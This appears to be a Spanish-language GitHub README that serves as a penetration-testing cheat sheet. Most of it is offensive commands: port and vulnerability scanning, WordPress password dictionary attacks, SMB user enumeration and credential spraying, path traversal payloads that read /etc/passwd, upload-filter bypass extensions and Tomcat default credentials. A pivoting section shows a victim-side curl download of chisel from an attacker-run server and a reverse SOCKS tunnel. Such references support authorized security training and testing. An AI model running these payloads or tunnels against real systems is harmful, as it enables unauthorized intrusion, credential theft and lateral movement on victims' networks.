 
# Mi repositorio sobre herramientas y configuraciones para la fase de reconocimiento de vulnerabilidades. 

# Herramientas de escaneo 
## Nmap
```shell
- nmap -sn <ip/24>
- nmap -sV -sT -O -p- <ip>
- nmap -sTCV <ip>
- nmap --script vuln <ip>
- nmap -f -sS -sV -Pn --script auth <ip>
- nmap -f -sS -sV -Pn --script default <ip>
```
#### Puertos UDP
```shell
- nmap -sU -sC --top-ports 100 <ip>
```
## Gobuster
```shell
- gobuster dir -u <url> -w /home/kali/Downloads/seclist/directory-list-lowercase-2.3-medium.txt -x php,html,txt
```
#### Realizar fuzzing
```shell
- gobuster fuzz -u https://example.com?FUZZ=test -w parameter-names.txt
```
## Nuclei
#### Escaneo de un solo objetivo
```shell
- nuclei -target https://example.com
```
#### Escaneo de varios objetivos
```shell
- nuclei -targets urls.txt
```
#### Network scan
```shell
- nuclei -target <ip>/24 
```
## Nikto
```shell
- nikto -h example.com
- nikto -h example.com -port 8083
- nikto -h example.com -maxtime number.of.seconds
```
## Wpscan
```shell
- wpscan --url <url>
```
### Ataque de diccionario
```shell
- wpscan --url <url> --passwords <ruta de diccionarios>
```
### Enumerar usuarios
```shell
- wpscan --url <url> --enumerate u 
```
## SMB
### Rpcclient
```shell
- rpcclient -U '' -N <ip objetivo>
```
- crackmapexec smb IP
- crackmapexec smb IP -u <usuario> -p <contraseña/directorio de contraseñas>

### Smbmap
```shell
- smbmap -H <IP> -R <carpeta>
- smbmap -H <IP> -u <USUARIO> -p <CONTRASEÑA>
- smbmap -H <IP> -u <USUARIO> -P <ARCHIVO_CON_CONTRASEÑAS>
```
### Smbclient
```shell
- smbclient //<IP>/<ruta> -U <usuario>
- smbclient -L //<IP> -U <USUARIO> 
```
### Rpcclient
```shell
- rpcclient -U '' -N <ip objetivo>
- rpcclient <IP> -U <USUARIO>
```
#### Comandos
```shell
- enumdomusers
- queryuser <RID> <--- Obtén detalles de un usuario específico.
enumdomgroups:
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
- netshareenum <--- Obtener detalles de recursos compartidos.
- getdominfo:
```

# Path Traversal 
```shell
- file=../../../../../../../etc/passwd
- file=/etc/passwd
- file=....//....//....//etc/passwd
- file=..%252f..%252f..%252fetc/passwd
- file=/var/www/images/../../../etc/passwd
- file=../../../etc/passwd%00.png 
```

# Upload extensions

```shell
- PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
- Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- Coldfusion: .cfm, .cfml, .cfc, .dbm
- Flash: .swf
- Perl: .pl, .cgi
- Erlang Yaws Web Server: .yaws
```
# Tomcat default credentials

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```
# Pivoting
### Local 
```shell
- ssh -L <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Remoto
```shell
- ssh -R <puerto local>:127.0.0.1:<puerto remoto> <usuario>@<ip> 
```
### Dinámico 
```shell
- ssh -D <puerto local que actuará como proxy> <usuario>@<ip> 
```
### Uso e instalación Chisel
#### Lado atacante
```shell
- python3 -m http.server 80 <--- para descargar chisel de lado de la victima.
- chmod +x chisel_linux_amd64
- ./chisel_linux_amd64 --reverse -p <puerto> 
```
#### Lado víctima
```shell
- curl http://<ip>/chisel_linux_amd64 -o chisel <--- para descargar chisel en la victima con el servidor del atacante.
- chmod +x chisel
- ./chisel client <ip>:<ip> R:socks 
```
<div align="left">
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/linux/linux-original.svg" height="39" alt="linux logo"  />
</div>
